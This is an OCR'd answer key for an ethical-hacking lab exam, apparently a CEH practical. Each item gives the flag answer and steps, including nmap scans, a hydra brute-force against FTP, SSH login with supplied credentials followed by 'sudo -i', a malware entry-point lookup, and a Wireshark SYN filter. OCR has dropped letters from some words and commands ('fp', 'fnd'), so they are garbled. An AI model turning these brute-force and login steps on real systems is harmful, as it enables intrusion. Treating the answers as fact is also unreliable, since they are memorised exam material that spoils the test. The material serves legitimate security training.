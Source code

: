 8.Exploit weak credentals used for FTP service on a Windows machine in the 192.168.0.0/24 subnet. Obtain the
fle, Credental.txt, hosted on the FTP root, and enter its content as the answer.
Answer: hSP#6Csa
1. Nmap -p 21 192.168.0.0/24
2. Sudo nmap -sS -A -T4 ip/24
3. hydra -L user.txt -P pass.txt fp://192.168.0.1
4. fp 192.168.0.1 and type user name and password login
5. Ls and search for the credental.txt fle using fnd . -name credental.txt.

===================================================================================================================

9.You used shoulder surfng to identfy the username and password of a user on the Ubuntu machine in the
192.168.0.0/24 network, that is, smith and L1nux123. Access the target machine, perform vertcal privilege
escalaton to that of a root user, and enter the content of the imroot.txt fle as the answer.
Answer: CS@@g5tj
1. nmap -sV -p 22 192.168.0.0/24 and now see open port ip address and note down
2. ssh smith@192.168.0.1 and for password given L1nux123
3. sudo -i
4. cd /
5. fnd . -name imroot.txt
6. cat givenpath/imroot.txt

===================================================================================================================

10.During an assignment, an incident responder has retained a suspicious executable fle "die-another-day". Your
task as a malware analyst is to fnd the executable's Entry point (Address). The fle is in the
C:\Users\Admin\Documents directory in the "EH Workstaton – 2" machines.
Answer: 0041e768
1. Analyze ELF Executable File using Detect It Easy (DIE)
2. Open manuals go malware analysis folder, statc malware analysis folder and packaging and ofciaton
folder then you can DIE folder.
3. Run the die.exe fle in windows, upload the target fle then click open now in scanned all now click on fle
info there you can see the entry point address.
4. Find the Portable Executable (PE) Informaton of a Malware Executable File
5. Open manuals go malware analysis folder, statc malware analysis folder and PE Extracton tools folder
then you can install and launch it.
6. Click on fle and upload the fle from windows, afer uploading it manually open the header fle then you
can see the entry point address.

===================================================================================================================

11.You are investgatng a massive DDoS atack launched against a target at 10.10.1.10. Identfy the atacking IP
address that sent most packets to the victm machine. The network capture fle "atack-trafc.pcapng" is saved in
the Documents folder of the "EH Workstaton – 1" (Parrot Security) machine.
Answer: 172.20.0.21
1. Go to statstcs IPv4 addresses--> Source and Destnaton ---> Then you can apply the flter given
2. tcp.fags.syn == 1 and tcp.fags.ack == 0
3. you can fnd the high number of packets send to10.10.1.10 address and that answer.
